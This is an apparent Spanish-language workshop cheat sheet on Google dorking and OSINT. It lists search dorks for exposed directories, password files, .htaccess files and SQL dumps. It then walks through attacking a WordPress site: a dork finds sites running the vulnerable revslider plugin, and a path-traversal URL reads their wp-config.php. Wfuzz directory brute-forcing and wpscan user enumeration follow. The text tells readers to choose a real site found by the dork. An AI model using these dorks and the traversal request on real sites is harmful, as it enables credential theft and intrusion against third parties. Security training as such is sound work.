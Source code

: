 # OSINT


###  GOOGLE DORKING

# Google dork cheatsheet

## Filtros de Búsqueda
| Filter          | Description                                        | Example                              |
| :-------------- |:---------------------------------------------------| :------------------------------------|
| intext      | Busca las apariciones de todas las palabras clave dadas. | `intext:"keyword"` |
| inurl      | busca direcciones en Internet que tengan ese URL. | `inurl:"keyword"` |
| allinurl      | busca direcciones en Internet solamente las páginas que tengan ese URL. | `allinurl:"keyword"` |
| intitle      | busca páginas con ese título. | `intitle:"keyword"` |
| site      | busca un sitio (dominio) específico. | `site:"www.google.com"` |
| filetype      | especifica un tipo de extensión de archivo. | `filetype:"pdf"` |
| before/after      | Usado para buscar en un rango de fechas. | `filetype:pdf & (before:2000-01-01 after:2001-01-01)` |
| related      |Busca páginas que son “similares” a la página web especificada. | `related:www.google.com` |
| cache      | Muestra la versión de chache de alguna página. | `cache:www.google.com` |

## Ejemplos

#### Búsqueda de Dominios
```
site: www.microsoft.com
site: microsoft.com –www.microsoft.com 
```
#### Listados (Folder Trasversal)
```
intext:"index of /"
intitle: Index.of/admin
intitle: index.of apache server at
allintitle: "index of/root" 
```

#### Páginas por defecto (home page): 
```
intitle:test.page.for.apache "it worked"
allintitle:Netscape FastTrack Server Home Page
intitle:"Welcome to Windows 2000 Internet Services"
intitle:welcome.to.IIS.
allintitle:Welcome to Windows XP Server Internet Services
allintitle:"Welcome to Internet Information Server"
allintitle:Netscape Enterprise Server Home Page
allintitle:Netscape FASTTRACK Server Home Page 
```

#### Páginas por defecto: 
```
intitle:test.page.for.apache "it worked"
allintitle:Netscape FastTrack Server Home Page
intitle:"Welcome to Windows 2000 Internet Services"
intitle:welcome.to.IIS.
allintitle:Welcome to Windows XP Server Internet Services
allintitle:"Welcome to Internet Information Server"
allintitle:Netscape Enterprise Server Home Page
allintitle:Netscape FASTTRACK Server Home Page 
```
#### Manuales y Documentación
```
intitle:"documentation" intitle:”Apache 1.3 documentation”                     Apache 1.3
intitle: “Apache 2.0 documentation”                    Apache 2.0
intitle:”Apache HTTP Server” intitle:” documentation   Apache Various
inurl:cfdocs                                           ColdFusion
intitle:”Easerver” “Easerver Version Documents”        EAServer
inurl:iishelp core                                     IIS/Various
```
#### Páginas ejemplos
```
inurl:WebSphereSamples                            IBM Websphere
inurl:/sample/faqw46                              Lotus Domino 4.6
inurl:samples/Search/queryhit                     Microsoft Index Server
inurl:siteserver/docs                             Microsoft Site Server
inurl:/demo/sql/index.jsp                         Oracle Demos
inurl:demo/basic/info                             Oracle JSP Demos
inurl:iissamples                                  IIS/Various
inurl:/scripts/samples/search                     IIS/Various
```
#### Escaneo de Puertos
```
"VNC Desktop" inurl:5800
inurl:5800
inurl:webmin inurl:10000
```
#### Password
```
ext:pwd inurl:(service | authors | administrators | users) “# -FrontPage-”
inurl:"auth_user_file.txt"
"Index of /admin" 
"Index of /password"
"Index of /mail"
"Index of /" +passwd
"Index of /" +password.txt
"Index of /" +.htaccess
index of ftp +.mdb allinurl:/cgi-bin/ +mailto
alliurl:phpinfo.php
administrators.pwd.index
authors.pwd.index
service.pwd.index
filetype:sql “# dumping data for table” “`PASSWORD` varchar”
```

#### Base de Datos
```
intitle:index.of password.mdb
ext:asa mdb
ext:asa SERVER=(local)
index of ftp +.mdb allinurl:/cgi-bin/ +mailto
filetype:sql “# dumping data for table” “`PASSWORD` varchar”
```
## Operadores

#### Búsqueda de términos

Frase exacta

```
"Tinned Sandwiches"
```

#### OR

```
site:facebook.com | site:twitter.com
```

#### AND

```
site:facebook.com & site:twitter.com
```

#### Combinación de operadores

```
(site:facebook.com | site:twitter.com) & intext:"login"
(site:facebook.com | site:twitter.com) (intext:"login")
```

#### Excluir resultados

```
site:facebook.* -site:facebook.com
```

#### Patron Global (*)

```
site:*.com
```

###  DORKING EN WORDPRESS

Empezemos con este dork
```
Dork: inurl:/wp-content/plugins/revslider/
```
Dicho dork te permite ubicar sitios vulnerables en los que podrías obtener uno de los archivos de configuración principales del CMS, elija un sitio, a ese sitio que eligió para efectos del taller le llamaremos <www.vulnerable.com>
```
http://<www.vulnerable.com>/wp-admin/admin-ajax.php?action=revslider_show_image&img=../wp-config.php
```

![image](https://user-images.githubusercontent.com/50930193/166059793-2dea6276-7bd7-445b-b59f-455bdb2c70b6.png)

Esto no es google DORKS pero es necesario que conozcan la funcionalidad de la técnica de Fuzzing, esta técnica permite automatizar mediante fuerza bruta la posibilidad de encontrar directorios, para ello es necesario disponer de un diccionario

Ingrese a kali y ejecute
```
$more /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
Ese es un Wordlist con nombres de directorios que usan los principales servidorws web y CMSs

Ejecute el comando 
```
$ wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://<www.vulnerable.com>/FUZZ
```
![image](https://user-images.githubusercontent.com/50930193/166060739-d70d4a31-e673-4141-a637-ed456d009114.png)

Ahora ejecute el comando siguiente:
```
$ wpscan --url http://www.vulnerable.com --enumerate u
```
